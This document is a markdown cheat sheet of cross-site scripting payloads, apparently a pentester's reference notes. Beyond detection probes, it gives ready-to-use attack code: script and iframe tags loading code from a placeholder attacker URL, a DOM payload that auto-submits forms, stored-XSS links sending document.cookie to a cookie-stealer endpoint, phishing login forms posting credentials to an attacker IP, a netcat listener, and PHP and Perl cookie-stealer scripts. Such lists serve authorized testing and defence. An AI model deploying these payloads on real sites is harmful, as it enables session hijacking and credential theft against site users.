 # XSS Payloads List

Search Tag: #helpers

Note: JavaScript and HTML code snippets are case insensitive.

## Detection

- HTML attributes

```
<h1>XSS header injection</h1>
<h2>XSS header injection</h2>
<h3>XSS header injection</h3>

```

- Javascript pop up

```
<script>alert(1)</script>
"><script>alert(1)</script>
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

## Attack Vector

### Port Scanning

```
<img src="http://[::]:8000/image.jpg"><img>
```

### HTML Attributes

- A list of payloads to inject links

```
<script>document.location="http[s]://<attacker_URL>/script.js"</script>
<script>window.location="http[s]://<attacker_URL>/script.js"</script>
<script src="http[s]://<attacker_URL>/script.js"></script>
<img src="http[s]://<attacker_URL>/script.js">
<svg src="http[s]://<attacker_URL>/script.js">
<iframe src="http[s]://<attacker_URL>/script.js">
```

### Inject JavaScript code

- XSS DOM object

```
http[s]://<IP>/index.php?<parameter_id>=<script>window.onload=function(){document.getElementsByName('<html_attribute_field>')[0].innerHTML='XSS is easy!';document.getElementById('<html_ID_attribute>').submit();}</script>

http[s]://<IP>/index.php?page=<script>window.onload=function(){document.getElementsByName('comment')[0].innerHTML='XSS is easy!';document.getElementById('post').submit();}</script>
```

- For stored XSS

```
<a href="https://www.google.com/search?q=what+is+xss" onmouseover="window.location='http[s]://<attacker_URL>/cookiestealer.php='+escape(document.cookie)"What is XSS?

<a href="https://www.google.com/search?q=what+is+xss" onmouseover="window.location='http[s]://<attacker_URL>/cookiestealer.php?cookie='+escape(document.cookie)"What is XSS?
```

### Phishing Templates

#### Harvest Cookies

##### Client Side

- Phishing Form

```html
<h3>Login</h3>
<form action=http://<attacker_IP>
Username:<br><input type="username" name="username"></br>
Password:<br><input type="password" name="password"></br>
<br><input type="submit" value="Logon"></br>
```

- One liners

```html
<h3>Login</h3><form action=http://<attacker_IP> Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

##### Server Side

- Netcat listener

`$ nc -lnvp 80`

- PHP Cookie Stealer

```php
<?php
$cookie = $_GET['cookie'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' . $cookie . "\r\n");
fclose($fp);
?>
```

- Perl Cookie Stealer (TODO: Update this)

```perl
#!/usr/bin/perl

# sudo mv cookie_stealer.pl /var/www/html/
# sudo chown www-data:www-data /var/www/html/cookie_stealer.pl
# sudo chmod 700 /var/www/html/cookie_stealer.pl
# perl -c /var/www/html/cookie_stealer.pl

#Get Current Date
chomp($DATE	= `date`);

#Log Directory
$dir	= "/var/www/logdir";

#Log File
$file	= "$dir/log.txt";

#Print HTML if tested from a browser
print "Content-type: text/html\n\n";

#Open Log File in appended mode
open(LOG,">>$file");

#Collect HTML Post Data
&getDATA;

#Close Log File
close(LOG);

sub getDATA {
        # Put the posted data into variables
        if($ENV{'QUERY_STRING'} ne "") {
                $buffer = $ENV{'QUERY_STRING'};
        }
        elsif($ENV{'CONTENT_LENGTH'} ne "") {
                #Read the input stream using the below line
                read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
        }
        elsif($#ARGV > -1) {
                chomp($buffer = $ARGV[0]);
        }

	#print "buffer: $buffer<BR>\n";


	#Place buffer into the array @pairs, delimited by the ";%20"
	#A ";" plus "%20" equals a ";" and a space	
        @pairs = split(/;%20/, $buffer);

	print "----------------------------------<BR>\n";
	print LOG "----------------------------------\n";

	$HTTP_REFERER = $ENV{'HTTP_REFERER'};
	print "HTTP_REFERER: $HTTP_REFERER<BR>\n";
	print LOG "HTTP_REFERER: $HTTP_REFERER\n";

	#Enumerate through the @pairs array
        foreach $pair (@pairs) {
		#splits each name/value pair on the equal sign delimiter
                ($name, $value) = split(/=/, $pair);

		#translates every "+" sign back to a space
                $value =~ tr/+/ /;

		#substitute every %HH hex pair back to its equivalent ASCII character, using the pack() function
                $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;

		#store the values into a hash called %FORM
                $FORM{$name} = $value;

                print "DATE: $DATE; NAME: $name;VALUE: $value<BR>\n";
                print LOG "DATE: $DATE; NAME: $name; VALUE: $value\n";
        }

	print "----------------------------------<BR>\n";
	print LOG "----------------------------------\n";

}
```

#### ClickJacking

TODO: Fill this info

#### Malvertising

TODO: Fill this info

---
## References

- [PayloadBox: XSS Payload List](https://github.com/payloadbox/xss-payload-list)

- [10 Practical scenarios for XSS attacks](https://pentest-tools.com/blog/xss-attacks-practical-scenarios)

- [Cobalt: A Pentester’s Guide to Cross-Site Scripting (XSS)](https://www.cobalt.io/blog/a-pentesters-guide-to-cross-site-scripting-xss)

- [Geeky much: Cross-site Scripting](https://medium.com/secure-you/cross-site-scripting-b64f440ae060)

- [Computer Security Student (CSS): Perl XSS Cookie Stealer](http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson13/logit.pl.TXT)